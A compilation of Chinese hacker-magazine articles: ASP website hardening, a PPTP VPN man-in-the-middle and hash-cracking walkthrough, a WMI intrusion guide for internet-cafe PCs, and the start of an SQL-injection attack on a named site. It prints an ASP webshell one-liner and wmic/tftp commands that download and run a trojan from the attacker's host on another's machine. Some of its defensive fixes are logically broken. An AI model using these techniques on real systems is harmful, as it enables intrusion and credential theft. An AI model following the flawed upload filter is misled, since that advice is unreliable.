不过服务器的安全配置需要考虑的东西太多，一两句话说不清楚，大家可以找找一些服务器安全配置教程。这里我推荐一个工具“N.C.P.H脚本杀手”，如图1所示，很黄很暴力的一个东西（瑞星会报毒，不过大家放心用啦！），可以对“WScript.Shell”和“Scripting.FileSystemObject”等危险组件进行修改或者删除，也可以直接对服务器权限进行设置，很方便菜鸟使用。不明白的可以Google下，也可以到“黑手”论坛上找我。


### 二、安全整站系统的选择

接下来就是整站系统的选择了，这一步同样重要。如果搭建论坛的话，我建议大家用DVBBS 8.2版本或者BBSXP 2008，最好用最新的版本。虽说“动网”以往出的那些漏洞总是让站长们提心吊胆，可是经过这么长时间的风雨后，DVBBS的成长大家还是有目共睹的。不过如果你使用了它们的话，还是要时刻注意网上发布的安全漏洞公告，看看网上的帖子，如果发现整站程序存在安全漏洞，要第一时间补救。


对于别的整站系统的选择，首先要以整站名为关键字去Google上搜索一下，看看这套系统是不是爆出过什么高危的漏洞，以及使用者对它的评价，这些信息最好是从权威的黑客站点发布出来的。

当你感觉那套系统不错，准备开用的时候，最好去官方网站下载，因为俺就遇见过提供下载的网站对源码做手脚放后门的事情，“黑手”的0809期杂志《警钟长鸣——警惕隐藏在网站背后的陷阱》里我也详细说过，大家可以看看。

还有，下载的时候要仔细阅读这套程序的说明文档，看看是否对注入、上传、跨站一类的漏洞进行过过滤和预防。如果你懂ASP源码的话，那就好办了，直接看代码找漏洞。如果不懂的话也不用担心，还可以用工具来帮我们完成这项工作，我推荐大家使用“Acunetix Web Vulnerability Scanner 5”和“JSky”这两个绝对牛X的工具来扫。

下面我以《花木在线企业站》这套系统给大家演示一下这两个工具对该系统的扫描结果，如图2、图3。

我们可以很容易地发现安全漏洞，其中“Acunetix Web Vulnerability Scanner 5”扫描出了跨站漏洞和数据库相对路径，“JSky”扫描出了跨站及一些注入点。这样我们就知道这套系统的安全性还是很脆弱的，建议大家不要使用。

### 三、漏洞的补救

#### 1、防注入的综合应用

当你通过脚本漏洞分析或者扫描工具扫描发现了你所使用的整站系统存在安全漏洞，那接下来我们应该做的就是把漏洞补上。

其实对于网站漏洞的修补也很简单，我们可以用通用防注入系统，先把Neeao_SqlIn.asp、Neeao_sql_admin.asp、inc（这是个目录）这三个东东放到网站根目录下，然后把网站的每个存在request.QueryString()、request.form()对参数接收的页面直接在文件头上加上一个`<!--#include file="Neeao_SqlIn.asp"-->`，这样就可以对GET和POST提交的参数进行过滤了。

不过很多时候会看到程序是用request()接收参数的，如果是这样那你就要注意了，因为这时再用上面这个通用防注入程序就不行了，黑客是可以通过Cookies注入方式来绕过的。对于这样的情况，我们最好分析下request()接收的参数到底是GET还是POST提交的，然后对号入座，GET就改成request.QueryString()，POST就改成request.form()，一般就没问题了。

如果这样不行的话那就要用函数检测了，09年1月我给大家介绍了一个过滤函数，这回我又增加了几个需要过滤的特殊字符，用它就可以对request()进行彻底的过滤：

```vb
Public Function RSQL(strChar)
    If strChar = "" Or IsNull(strChar) Then RSQL = "" : Exit Function
    Dim strBadChar, arrBadChar, tempChar, i
    strBadChar = "+, -, --, %, &, *, ', (, ), <, >, [, ], {, }, \, /, ;, :, "", , Chr(34), &, , Chr(20), & , % , & Chr(0)"
    arrBadChar = Split(strBadChar, ",")
    tempChar = strChar
    For i = 0 To UBound(arrBadChar)
        tempChar = Replace(tempChar, arrBadChar(i), "")
    Next
    RSQL = tempChar
End Function
```

我把它整合到了Neeao_SqlIn.asp里面，大家只要在用request()接收的页面先`<!--#include file="Neeao_SqlIn.asp"-->`，然后再调用这个函数就行。比如：`id=RSQL(request("id"))`，这样你的整站程序就可以高枕无忧了，不用再怕注入的侵扰。

#### 2、跨站的解决

对于跨站漏洞的修补，其实也很简单，在ASP环境下，只要用Server对象的HTMLEncode()方法对入库的信息进行HTML编码就能基本解决这个问题。用它可以过滤在输入中含有“%、<>、[]、{}、&、+、-、"、(.)”（不包含顿号）的这些字符，把它们全都变成HTML编码，这样就不能产生跨站的效果了。代码如下：

```vb
strUserName = Server.HTMLEncode(Request.QueryString("userName"))
strUserName = Server.HTMLEncode(Request.Form("userName"))
```

是不是很简单？也不用长篇大论地用正则过滤，推荐使用这个方法来堵住跨站漏洞。

#### 3、暴库漏洞杜绝

暴库漏洞也是危害相当大的一个漏洞，可以直接爆出数据库，连网站绝对路径都会给出来！有的站长可能认为，如果用MSSQL的数据库，就算是爆出数据库路径下载了也没用，我留着这个还能当一个蜜罐来蒙骗黑客们呢！不过这样的话，您可要想好了，有了网站的绝对路径再加上一个DBOWNER权限以上的注入点，那么黑客用数据库备份的方法就可以让你的网站顷刻间沦陷。

好在暴库漏洞现在很少见了，修补起来也很简单，在`conn.asp`这个数据库链接文件开头插入`on error resume next`这样的容错语句就爆不出路径来了。

#### 4、上传漏洞修补

上传漏洞可以说是众多漏洞里危害最大的一种，而且像动网、动易文章、动感商务2005等也都出现过上传漏洞。想当初，动网DVBBS 7.0头像上传文件的漏洞大家一定玩得都很爽吧？我们先来看看漏洞代码：

```vb
Sub upload_0()
    Set upload = New UpFile_Class  ' 建立上传对象
    upload.GetData (Int(Forum_Setting(56)) * 1024)  ' 取得上传数据，不限大小
    iCount = 0
    If upload.err > 0 Then
        Select Case upload.err
        Case 1
            Response.Write "请先选择你要上传的文件 [ <a href=# onclick=history.go(-1)>重新上传</a> ]"
        Case 2
            Response.Write "图片大小超过了限制 " & Forum_Setting(56) & "K [ <a href=# onclick=history.go(-1)>重新上传</a> ]"
```

```vb
        End Select
        Exit Sub
    Else
        formPath = upload.form("filepath")
        ' 右全角后加(/)
        If Right(formPath, 1) <> "/" Then formPath = formPath & "/"
        For Each formName In upload.file
            Set file = upload.file(formName)
            If file.filesize < 100 Then
                response.write "请先选择你要上传的图片 [ <a href=# onclick=history.go(-1)>重新上传</a> ]"
                response.end
            End If
            fileExt = LCase(file.FileExt)
            If CheckFileExt(fileExt) = False Then
                response.write "文件格式不正确 [ <a href=# onclick=history.go(-1)>重新上传</a> ]"
                response.end
            End If
            Randomize
            ranNum = Int(90000 * Rnd) + 10000
            fileName = formPath & Year(Now) & Month(Now) & Day(Now) & Hour(Now) & Minute(Now) & Second(Now) & ranNum & "." & fileExt
```

关于漏洞的成因俺就不分析了，网上有好多关于这种漏洞的说明，这个漏洞修补起来也很简单，只要在`formPath=upload.form("filepath")`这句后面加上`formPath=Replace(formPath, Chr(0), "")`，把空字符给替换为空就OK了。再给大家一个上传漏洞的例子：

```vb
Dim upload, oFile, formName, SavePath, fileName, fileExt, oFileSize
Dim EnableUpload
Dim UpFileType, arrUpFileType
Dim ranNum
Dim msg, FoundErr
Dim DialogType
msg = ""
FoundErr = False
EnableUpload = False
DialogType = Trim(upload.form("DialogType"))
Select Case DialogType
    Case "pic"
        UpFileType = UpFileType_pic
    Case "flash"
        UpFileType = UpFileType_flash
    Case "media"
        UpFileType = UpFileType_media
    Case "rm"
        UpFileType = UpFileType_rm
    Case Else
        UpFileType = ""
End Select
For Each formName In upload.file
    Set oFile = upload.file(formName)
    oFileSize = oFile.filesize
    If oFileSize < 100 Then
        msg = "请先选择你要上传的文件！"
        FoundErr = True
    ElseIf oFileSize > (MaxFileSize * 1024) Then
        msg = "文件大小超过了限制，最大只能上传 " & CStr(MaxFileSize) & "K 的文件！"
        FoundErr = True
    End If
    fileExt = LCase(oFile.FileExt)
    arrUpFileType = Split(UpFileType, "|")
    For i = 0 To UBound(arrUpFileType)
        If fileExt = Trim(arrUpFileType(i)) Then
            EnableUpload = True
            Exit For
```

```asp
    ... 
    If fileExt = "asp" Or fileExt = "asa" Or fileExt = "aspx" Then
        EnableUpload = False
    End If
    If EnableUpload = False Then
        msg = "这种文件类型不允许上传！\n\n只允许上传这几种文件类型：" & UpFileType
        FoundErr = True
    End If
    strJS = "<SCRIPT language='javascript'>" & vbcrlf
    If FoundErr <> True Then
        Randomize
        ranNum = Int(900 * Rnd) + 100
        fileName = SavePath & Year(Now) & Month(Now) & Day(Now) & Hour(Now) & Minute(Now) & Second(Now) & ranNum & "." & fileExt
        oFile.SaveToFile Server.mappath(fileName)
        response.write "文件上传成功！"
    End If
```

这是无组件上传的部分代码，是很明显的漏洞，0901期“黑手”上我详细地分析过，如果哪位不明白可以拿出来再翻翻看。补救方法同样很简单。

只要把`EnableUpload=False`这句移到`for each formName in upload.file`后面，并且把`if fileExt="asp" or fileExt="asa" or fileExt="aspx"`……改成`if fileExt<>"asp" or fileExt<>"asa" or fileExt<>"aspx" or fileExt<>"cer" or fileExt<>"cdx" or fileExt<>"htr" or fileExt<>"stm" or fileExt<>"shtml" or fileExt<>"php"`……

这样就差不多了，不过也不能说完全就可以杜绝漏洞，建议不要使用这个组件来进行上传。

总结：上传漏洞的种类还是多种多样的，利用方法更是层出不穷，不过不管怎么样，关于上传漏洞都是可以避免其发生的，只要站长们对上传文件多加留心，一般是不会出问题的。

- 第一要看上传文件是否有权限验证：一般是用Session来验证的；
- 第二要看上传脚本用的是有组件上传还是无组件上传，最重要的是看上传文件对文件过滤是否有像无组件的逻辑问题，有没有后缀过滤不完全的问题，还有就是是不是给普通用户上传的权利，非admin后台目录的有上传功能的文件一样删除。
- 第三，给大家做一个参考，就是不用上传文件的时候把它改成upfile.php这样的后缀，当需要用到上传功能时再把后缀改正确，这样是最保险的做法。

### 5、Session安全

猪哥在他文章里也提到了Session安全，的确，这个是重中之重，这里俺就不说Session欺骗造成的危害了，因为这个是没办法预防的。想想，如果一个存在上传漏洞的upfile.asp连Session验证都没有，那就只有任人宰割的份了，所以网站发布之前一定要看看后台文件是不是都通过Session验证了，如果程序员忘了，你一定要帮忙补补上。

#### 6、数据库安全

猪哥对数据库安全说得很详细，再提供一个方法，在数据库里新建一个nodown的二进制表，然后把数据库改成asp后缀，这样数据库就不能被下载了。

对于数据库的安全，还有一点就是如果你对ASP代码和数据库查询语句熟悉的话，最好把整站数据库默认的表名改了，改成别人猜不到的表名，这样即使你的网站有注入点，对于ACCESS的数据库，入侵者也拿你没办法。还有最重要的，就是后台如果有数据库备份功能的话，提供备份功能的文件一定要记得删除，恢复数据库的也不能留。

#### 7、文件安全性

以前入侵网站的时候，经常遇到找不到网站后台的情况，实在没办法时在网站域名后面加个robots.txt，经常会有意想不到的结果，如图4。

希望各位站长千万不要用这个文件来屏蔽Google搜索敏感文件，这样做的结果往往是赔了夫人又折兵。

有时候搞站时发现网站安全性做得很好，黑盒测试很难找到突破口，只能找源码分析。可是网站的信息又被改得面目全非，根本看不出来是哪个整站系统。如果这样的话你就要看看网站是不是存在“说明.txt”、“readme.txt”、“程序说明.txt”、“使用说明.txt”这种类似的文件了，因为这里面很有可能就是这套系统的说明文件，没准你找了半天找不到的后台就写在里面了，密码可能还是默认的哦，如图5。

分析源码的时候经常看到类似`<!--#include file="Inc/sql.ini"-->`的语句，这是把过滤注入语句和定义的函数放到INI文件中。


文件中。也许程序员觉得这样没啥，可是对于一个经验丰富的hacker来说，这可是一个绝好的提示。

#### 8、目录的安全性巩固

目录的安全性包括相对路径的安全和绝对路径的安全；相对路径安全最重要的是把后台的路径给隐藏起来，这需要给后台目录修改成一个除了你自己知道，别人根本不能猜出来的目录。不过这也不是绝对的，有了Google没有事情是绝对的。

绝对路径的安全就是网站的绝对路径不能被暴露，这是很重要的，因为当入侵者具有了一个DBOWNER权限的注入点时，他只需要知道你网站的绝对路径就完全有理由拿下你的网站了。

对于绝对路径的暴露，除了上面提到的暴库漏洞外，就是ASP探针给网站带来的危害了。有些站长用ASP探针对服务器进行测试后却忘记将它删除，这样入侵者通过这个文件很容易找到网站的绝对路径，如图6。

我们以“功能直达：概况｜组件｜环境｜磁盘｜运算速度｜带宽检测｜安全状况”为关键字，发现很多的网站都用了阿江这个ASP探针，结果相当可观，如图7所示。

这里只是以阿江探针为例，网上好多各种各样的探针，我也收集了一些，留给大家分析。从这点大家应该能明白，ASP探针用完了一定要删掉。

### 9、HTML编辑器安全这两种编辑器都以速度快、功能强大为亮点，深受站长们的喜爱。可是这两种编辑器都存在严重的安全漏洞，由于配置不当，一大批的网站被拉下了水！其中包括清华等著名高校。

那么如何使这两个编辑器能够更加安全快速地运行呢？我给几点建议。大家知道，eWebEditor 存在上传和列目录的漏洞，我们可以修改源码，对 eWebEditor 相应的参数进行过滤。不过最简单的修补方法就是修改数据库名字，然后到 eWebEditor 目录把除了 **ewebeditor.asp、PopUp.asp、conn.asp、Upload.asp** 外的东西全部删除，这样基本上就没多大问题了。

对于 FCKeditor 的上传任意文件漏洞，还有 2003 的目录解析漏洞，解决办法就是下载最新的 fckeditor 2.6。经过测试，它是没有网上流传的上传漏洞的，不过还有没有别的 0day 俺也就不知道了，呵呵。如果懒得换的话，把 **editor\filemanager\browser** 这个目录删除，大家暂时可以放心使用了。

## 10. 网站后台管理安全

网站后台是一个网站的核心部分，当黑客拿到后台的权限后，他能做的事情有很多，所以其安全是不能被忽视的。关于后台的安全，我总结了下，有四点。

- 1. 第一个就是上传。对于上传的问题，如果你认真看了第 4 部分的上传漏洞修补，黑客们在上传这个地方是不会有突破的。
- 2. 第二就是后台提供的数据库操作功能了，包括数据库备份、数据库恢复，还有就是执行 SQL 语句的功能（这个功能不是所有的整站都提供）。这些功能一般都是用不到的，尤其是执行 SQL 语句这个功能，如果数据库连接帐号是 SA 的话，那黑客连 webshell 都不用再拿了，直接获得系统权限。所以，这些东西留着都是祸害，直接删除掉，也可以先做个备份，用的时候再通过 FTP 上传上去。
- 3. 第三是配置文件插马漏洞。如图 8，是网域科技的后台，直接在填写信息的地方插入 **%><%execute request("gsrc")%><%**，再访问 **inc/config.asp**，就可以很轻松拿到 webshell 了。

对于这个漏洞，解决方法也很简单，只要把 **"%、"、{、}"**（% 和 " 主要是为了防止蓝屏一句话木马，{ 和 } 主要是过滤冰狐浪子的一句话）这四个字符过滤掉，基本就没问题了。注意 " 一定要过滤，大家可以参考防注入的方法自己构造函数。

### 四、密码安全策略

网站搭建好了一定要设置一个强悍的密码，最好是十位以上数字字母混合的，千万不要用自己的手机号或者生日做密码，这样随便一个菜鸟黑客都能把你密码给社工出来，这一点要切记。

还有就是你给后台设置了一个还不算弱的密码，可是你的网站存在注入漏洞，后台的密码散列就有可能被猜解出来。入侵者通过 CMD5 这样的网站在线查询，或者用 MD5 暴力破解的方法破解，最终可以得到你真实的密码，那你的大门依然可以被攻破。

对于 MD5 加密，原理上来讲是很安全的，可是 10 位以上的长密码有时候很容易忘记，这里我们介绍一种简单修改 MD5 算法的方法来迷惑入侵者。

首先找到 **md5.asp** 这个文件，然后把最后的一句 **“MD5 = LCase(WordToHex(a) & WordToHex(b) & WordToHex(c) & WordToHex(d))”** 代码改成 **“MD5 = LCase(WordToHex(c) & WordToHex(a) & WordToHex(b) & WordToHex(c) & WordToHex(d))”**。

这样，用这个 md5.asp 加密出来的密码散列就是 40 位的了（原来的是 32 位），把这个散列拿到 CMD5 网站上去破解，就不能识别出是 MD5 加密的。

是不是很有成就感？其实这种修改方法也不安全，我们可以参照网上流传的方法，自己对 md5.asp 的算法进行修改，这样得到的加密散列才是最安全的，即使是 123456 这样的弱口令加密的散列你也破解不出来！

### 五、胡言乱语

说了不少了，可是限于本人能力，可能好多地方存在错误，还有好多 ASP 安全性的东西文章中没有涉及到，希望大家能够多给我指正和补充，小弟不胜感激。还有就是希望哪位能够接续本文再写一篇续谈，把俺遗漏的东西给补上，多谢！

编辑点评：

秦柯还有 %$c 这一个用法，最后的 40 位 MD5 也是可以逆向的。文章写得比较长，大家耐心点看，作者自己的东西说不定有些你还不懂呢。

西线寄语：

大年初三的晚上，带女儿去吃开封菜，就是肯德基（KFC）啦！我们站在柜台前点菜，女儿在那指指点点的，我无心地应付着，猛然侧头看到了柜头镜子里的自己，头发零乱，白发已生，眼镜脏脏的，脸色灰暗，一张典型中年男人的脸。的确我是老了，从来没有这么地触目惊心，没有想到自己突然间就中年、老了下来。其实，老的速度和成熟的大小是成反比的，你成熟越大，老得越慢。想一下，我是 75 年生的，不过怎么会老得这样快，真的是一事无成呀。无论如何，做人还是要快乐一点吧，让自己快乐一点，好好地生活，让爱我们的人放心地去生活，这是我们应当做的。真的希望我们的《黑客手册》一直带给读者阅读上的愉悦，享受到学习的快乐，这也是作为编辑的责任。

## 粉碎 VPN 安全的假象

### —— PPTP VPN 攻防实战

◎ Christopher Yang/杨哲[ZerOne]

从本文你可以浅显易懂地了解到获取和破解 VPN Hash 的方法。

大多数管理员及用户对于 VPN 的看法都是，VPN 环境已经属于高级别安全防护，足以保证企业内部信息通信的安全与稳定。那么，事实真的是这样么？VPN 真的是如此无敌么？下面我就带大家来揭开 VPN 薄弱的面纱，看看黑客们是如何进行 VPN 攻击的。

首先要强调的是，VPN 类型有很多分类，但对于大多数中小型企业，为了便于工作及部署，基本都是采用 PPTP 及强化的 IPSec VPN；至于大型企业及分支众多的分店型企业，则较多使用 SSL VPN。而针对 VPN 的恶意攻击，常见的有中间人攻击、D.O.S 攻击等，这次我们先来看看基于 ARP 欺骗的 PPTP VPN 攻击。

支持插件，能够检查网络环境是否是交换局域网，并且能使用主动或被动的操作系统指纹识别技术让你了解当前局域网的情况。该测试工具也有 Linux 和 Windows 两个版本。

### 一、攻击相关工具介绍

- **Zenmap**

  Zenmap 其实是 nmap 的图形版本。同样免费，它提供了很好的界面帮助用户进行 nmap 常见的扫描选项配置，并能够将结果用不同颜色标识，以便用户查看所需的内容。

- **Asleap**

  这是一款用于恢复 LEAP 和 PPTP 加密密码的免费工具，有 Linux 和 Windows 两个版本，大家可根据需要选择，其原理主要是基于 LEAP 验证漏洞，但由于 PPTP 同样使用了和 LEAP 一样的 MSCHAPv2 加密，所以该工具也可用于破解 PPTP 账户及密码。

- **Ettercap**

  这是一款以太网环境下的网络监测、拦截和记录工具，支持多种主动或被动的协议分析，比如加密相关的 SSH、HTTPS 等，有数据插入、过滤、保持连接、同步等多种功能，也有一个能支持多种嗅探探针的、强大而完整的嗅探套件。

### 二、VPN 攻击实战步骤

- 1. 扫描并确定 VPN 服务器目标

在对 VPN 设备进行攻击前，需要先对预攻击目标进行确认，这就需要扫描来发现及识别目标。对于最常见的 PPTP VPN，攻击者常会使用 nmap 这款在命令提示符下工作的扫描器来进行探测。不过，在本文修订时，nmap 已经有了自己的图形化版本 Zenmap，对于一些习惯使用鼠标的用户，也许是个福音。

通过采用 Full Version Detection Scan 完整版本探测模式，作为新版本的 Zenmap，成功扫描出目标开放了 1723 端口，此为 PPTP VPN 服务器标准开放端口。我们可以看到，Zenmap 同时识别出目标操作系统为 Windows 2003，以及该系统对应的内部版本号，非常准确，如图 1 所示。

- 2. 准备 Asleap

对于使用 Windows 环境的用户，可以直接将 asleap-2.0win 压缩包解压至任意目录下，然后通过 CMD 进入该目录即可使用；对于习惯 Linux 环境的用户，需要先将 Asleap 最新版 asleap-2.1.tgz 下载到 Linux 下，然后对 asleap-2.1.tgz 解压并安装。这样，Asleap 就安装到 Linux 下并可以使用了。如图 2 所示，为 Windows 下 Asleap 运行界面，图 3 为 Linux 下在 Shell 中运行 Asleap 命令界面。

```text
D:\VPN test\asleap-2.0WIN>asleap.exe
asleap 2.0 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
asleap: Must supply an interface with -i, or a stored file with -r
Usage: asleap [options]

-r    Read from a libpcap file
-i    Interface to capture on
-f    Dictionary file with NT hashes
-n    Index file for NT hashes
-s    Skip the check to make sure authentication was successful
-h    Output this help information and exit
-v    Print verbose information (more -v for more verbosity)
-V    Print program version and exit
-W    ASCII dictionary file (special purpose)
```

```text
bt asleap-2.1 # asleap
asleap 2.1 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
asleap: Must supply an interface with -i, or a stored file with -r
Usage: asleap [options]

-r    Read from a libpcap file
-i    Interface to capture on
-f    Dictionary file with hashes
-n    Index file for NT hashes
-s    Skip the check to make sure authentication was successful
-h    Output this help information and exit
-v    Print verbose information (more -v for more verbosity)
-V    Print program version
-C    Challenge value in colon-delimited bytes
-R    Response value in colon-delimited bytes
-W    ASCII dictionary file (special purpose)
```

- 3. 准备 Ettercap

和上面 Asleap 的准备工作一样，对于 Windows 或 Linux 环境，安装对应的 Ettercap 版本即可。需要说明的是，对于 Windows 环境，在安装 Ettercap 前，应当先安装 WinPcap 驱动，该驱动可支持网卡模式切换为混杂模式，以便进行中间人攻击所必需的嗅探及监听。

安装完毕后，就可以打开 Ettercap，然后先指定该工具工作的网卡。对于 Linux 环境，这里选择为 eth0；如果是 Windows 环境，则选择当前连接外网的网卡。如图 4 所示，为 Linux 下在 Ettercap 里指定工作网卡；图 5 为 Windows 下在 Ettercap 里指定工作网卡。

- 4. 设定完毕工作网卡，会出现如图 6 所示的载入界面，此时 Ettercap 会将监听及攻击模块依次载入。
- 5. 载入完毕后，需要打开 Hosts 栏的 Scan hosts 选项，进行扫描网段内开启主机的步骤。经过短时间的等待，在扫描结果中，Ettercap 会列出所有该网段内开启主机 IP 及对应 MAC 的列表，如图 7 所示，可以在 Host List 里查看该主机列表。
- 6. 在前面的扫描结果中，点选对应的 VPN 服务器主机，将其添加到 Target1 里，然后把预嗅探的其它客户端主机添加到 Target2 里。当然，也可以直接添加网关地址。如图 8 所示，此步骤为选择 ARP 欺骗目标。关于 ARP 欺骗原理及其它攻击内容，大家可以参考《黑客手册》以前的相关文章，这里就不再叙述了。
- 7. 目标选定后，就可以开始进行 ARP 欺骗式中间人攻击。点选 MITM 栏里的 ARP Poisoning 选项，在如图 9 所示的窗口中选择 **Sniff remote connections**，即嗅探远程连接内容。此时，Ettercap 就开始进行 ARP 双向欺骗，以截获双方通信内容了。
- 8. 接下来，经过耐心地等待，即可截获 VPN 交互数据包。对于没有耐心的攻击者，也会使用诸如 D.O.S 等方式强制断开目标 VPN 连接，来达到迫使远程 VPN 客户端重新登录的目的。如图 10 所示，在 Ettercap 里就可以直接过滤出采用 MSCHAPv2 加密的 VPN 用户登录 Hash 值，里面包含了 VPN 用户登录账户名及对应密码。
- 9. 先使用 Asleap 附带的 genkeys 工具来将字典文件转换成攻击程序可以识别的格式。字典可以事先根据需要来制作，比如生日、常用单词等，大家可以自行建立字典。

如图 11 所示，将字典中 30 多万 key 转换成可以识别的 Hash 只花费了 2 秒，转换速率为 14.6 万密码/秒。具体命令：`genkeys -r wordlist.txt -f wordlist.dat -n wordlist.idx`。

- `-r wordlist.txt`：wordlist 为事先制作的字典文件。
- `-f wordlist.dat`：将事先制作的字典文件转换成 dat 文件，文件名可相同。
- `-n wordlist.idx`：将事先制作的字典文件转换成 idx 文件，文件名可相同。

在建立好 dat 及 idx 文件后，就可以导入 Asleap 进行破解了。

- 10. 接下来我们就可以使用 Asleap 对截获到的 PPTP VPN 交互 Hash 进行破解了，命令：`asleap -C Challenge -R Response -f wordlist.dat -n wordlist.idx -v`。

- `-C Challenge Hash`：此处输入截获到的 VPN Challenge Hash 内容。
- `-R Response Hash`：此处输入截获到的 VPN Response Hash 内容。
- `-f wordlist.dat`：跟上前面生成的字典转换 dat 文件。
- `-n wordlist.idx`：跟上前面生成的字典转换 idx 文件。
- `-v`：该参数为显示详细破解过程，可选。

```text
Tunnel PPTP: 192.168.113.78 -> 192.168.113.3
PPP MS-CHAP Password:
admin: 00000000000000000000000000000000 0000000000000000
51F79B60C8D68BD9DE5D31E4EB92F35F9D05801FFE21A06A CF06BFA79F8ADC3E
```

其中：Challenge 挑战 Hash 为 `51F79B60C8D68BD9DE5D31E4EB92F35F9D05801FFE21A06A`，Response 响应 Hash 为 `CF06BFA79F8ADC3E`。如图 12 所示，可以看到，直接破解出当前 VPN 用户登录密码为 `haha23#`。

### 三、一些细节

- 1. Asleap 也支持混杂模式，可配合中间人攻击直接监听网卡。当截获到 PPTP VPN 用户登录 Hash，可进行即时暴力破解。
- 2. 若事先制作的字典里面没有包含需攻击 VPN 账户的密码，则会出现错误提示，如图 13 所示。

其实，PPTP VPN 破解工具还有很多，但是多数并不易用，比如另一款 THC 出品的 PPTP VPN 在线破解工具 thc-pptp-bruter，对于 Windows Server 2003 下搭建的 PPTP VPN 已经失去了工作效力。因为微软在这款工具推出后不久，就已经采取了针对性的系统改进及防范，但是本文的 Asleap 依然有效。

### 四、VPN 防御及改进方法

**改进方法之一：提高 VPN 用户登录密码复杂度。** 由于字典破解自身的局限性，主要是针对采用有规律的密码，如生日、电话号码、姓名、单词等有规律的组合，而当目标采用复杂密码，比如大小写字母 + 数字，或者大小写字母 + 数字 + 特殊符号这样的组合作为登录密码，字典就失去其效力了。

所以，对于安全有着较高要求的环境，应当修改登录密码为包含大小写字母、数字及特殊符号的密码，同时位数应设置为 8 位以上，这样才有可能抵御前面讲述的 Asleap 攻击。

**改进方法之二：提高 VPN 加密级别。** 对于中型以上企业，应考虑将现有的 PPTP VPN 升级为基于 IPSec 的 VPN 服务器，或者采用 L2TP 证书验证的高级 VPN 服务。PPTP VPN 确实很方便部署，但是安全性还是有所欠缺，尤其是在其算法已经被分拆成功的情况下，采取更高级加密级别才是行之有效的方法。

最后，我是来自 ZerOne 安全团队的 Christopher Yang。虽然这是带给新人的一篇关于介绍 PPTP VPN 攻击的小文，但在目前很多人忙着学习注入、跨站的同时，也希望大家多换几个思路：攻击，并不只是入侵网站、改改页面而已，有很多方式能达到渗透的效果。对于很多企业，这些直接看不到的攻击，反而会是危害最大的。

> **编辑点评：** 作者是在 XKungFoo 演讲过的牛人了，文章写得也很容易懂，小菜们有眼福了。细读一遍文章，照章操作，会有收获的。至于文章中的工具，作者没有提供，大家发挥搜索能力吧，在网上都可以找到的。

## WMI之原始入侵法

幽挂孤求败【中国黑客同盟安全小组】

从本文你可以了解用命令行实现 WMI 入侵。

大家好，相信有许多小菜都使用 Reactor 或 135 自动抓鸡工具抓了不少的肉鸡了，但很少有人知道那些利用工具的原理是什么，下面我给大家一一讲解。

记得好像年前有篇文章是用 WMI 命令来入侵网吧的电脑，后来由于不知道用什么命令来执行 CMD 命令，结果作者就又用 Remoxec 这个工具来攻击了，今天我算是给他那篇文章的补充。

我们知道，在网吧一般都使用克隆盘来安装电脑，所以每台电脑上的用户名和密码都是一样的，那我们怎么知道自己电脑上的用户名和密码呢？


先按 Shift 键，然后在桌面上随便找个程序单击右键，选择“运行方式”，然后就会弹出一个对话框，如图1所示。选择“下列用户”，你就在密码那个地方输入密码猜一下，一般先用空密码，不行就输入别的。

如果密码正确就能打开那个程序，反之则提示错误。当知道用户名和密码之后，就可以使用 WMI 命令连接对方的电脑了（前提：对方的 135 端口相应的服务必须打开）。

> 编辑注：这个猜密码的方法可有点笨呀，可以用 getsamhash 来抓取再破解，多去几次网吧就行了，呵呵。

依次选择“开始”→“运行”→“cmd”，进入 CMD 命令提示符，在里面输入 wmic 然后按回车（初次运行会自动提示你安装的），就进入了 WMI 命令控制台，如图2所示。


然后使用 `/node:"对方ip" /user:"用户名" /password:"密码"` 命令连接对方的电脑，如果没有任何提示，说明连接成功，但还必须输入一个简单的 wmic 命令来查看一下是否有执行命令的权限。就输入 os 吧，用来查看操作系统信息的命令，要是能成功返回系统信息就说明成功了。

下面就关键了，也是以前那篇文章不能解决的问题：用什么 WMI 命令来执行 CMD 命令。记得有人想用 job 作业对象来执行，但结果不成功，下面我就用 process 命令来执行 CMD 命令吧，命令为：`process call create "cmd命令"`。

如果想打开它的 23 端口的 Telnet 服务，就用命令 `process call create "tlntsvr.exe"`，但许多网吧都删了这个服务，那我们就用 tftp 命令来发送木马文件吧。

首先在自己的电脑上配置一个 tftp 服务器，我用的是 tftpd32 这个小型的 tftp 服务器。运行后选择“设置”，在那里随便输入一个比较大的数字吧，主要是为了不让它在传输文件时中断。根目录我输入 d:\，然后把我的木马服务端 server.exe 放到 D 盘，如图3所示。


然后运行命令 `process call create "tftp -i 192.168.0.72 get server.exe"`，192.168.0.72 是我自己电脑的 IP。关于怎么查看自己电脑的 IP，我们可以在 CMD 命令提示符下输入 ipconfig 按回车就可以了，如图4所示。这样就可以把木马的服务端发送到对方的电脑中。


接下来再运行 `process call create "server.exe"` 运行我们的木马服务端，过不了多久就能上线了，如图5所示。

好了，应该是说再见的时候了，这篇文章我够精简了，主要是为了不占用版面。而且为了照顾菜鸟，我还是做了个动画，谢谢大家的支持。

【文章中用到的 tftp.exe 和作者做的动画 007.exe 已收录在本期光盘】

> 编辑点评：命令行下真的可以做很多事，如果你了解它的话。我以前在“高手专栏”的批处理专题中讲过怎样掌握命令行下的 wmic，大家可以去翻看一下。


## 黑盒 + 白盒入侵站点

◀ sniperhg [O.S.T]

**本文你可以学到字符型 PHP 注入的 MySQL 语句**

有位哲学家说过：枪不用，要生锈，脑不用，要秀逗。什么！？没听过！？那不怪你，这句话是我自己编的。过年在家一直没机会写东西，走亲戚走到今天算是彻底结束，有闲暇时间写点稿了。

### 一、正面进攻，踩点失败

在自家论坛上逛逛，看到个 XX 战队的友情链接，没事就想练练。虽然没搞下来（具体原因大家在后面就会了解），但是并不是没有收获。正好练了练手。

打开其主页，Powered by iwms 5.0，还没听说过这个 ASPX 程序的漏洞，自己以前也尝试过 find bug 一番，无奈能力不够，并未能找到什么。再看看其它的二级米，bbs 为 DZ 7.0，没什么致命漏洞，有也在那帮牛人手里握着，唉……blog 为 z-blog，也没什么利用的地方，踩点失败。

### 二、旁注成功，白忙活了

旁注依旧是拿站的高频率动作，以前的一些常用 IP 反查站点都给关闭了，问群里牛人要了个也很不错的站：ip866.com，查了下此 IP 上绑定的域名，结果如图1。


图1

手工一个一个地看，静态全部放过，看到 hugesky.com 这个站的时候，发现了注入漏洞，不过貌似注入语句出现在 update 里，如图2，看着就不习惯。jsky 继续扫描，终于找到一个大家习惯的 select 注入点 http://hugesky.com:80/counter/counter.php?id=1，如图3。

